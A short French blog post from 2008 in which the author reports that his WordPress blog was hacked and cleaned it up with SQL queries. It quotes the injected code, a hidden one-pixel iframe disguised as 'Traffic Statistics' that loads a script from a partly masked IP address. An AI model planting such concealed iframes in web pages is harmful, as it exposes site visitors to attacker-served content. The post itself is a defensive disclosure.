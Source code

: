 ```yaml
---
id: 515
disqus_id: 515 http://regis.decamps.info/blog/?p=515
title: 'Ce blog s’est fait kacker'
date: 2008-05-12T23:41:08+00:00
author: Régis
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /blog/2008/05/ce-blog-sest-fait-kacker/

dsq_thread_id:
  - "564520470"
categories:
  - Hightech
  - Misc
tags:
  - Misc
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était `potentiellement dangereux’. J’ai d’abord cru qu’ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
```
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics -->
```


WordPress a connu un certain nombre de failles de sécurité, et j’ai un peu de mal à suivre les mises à jour. 

J’ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>
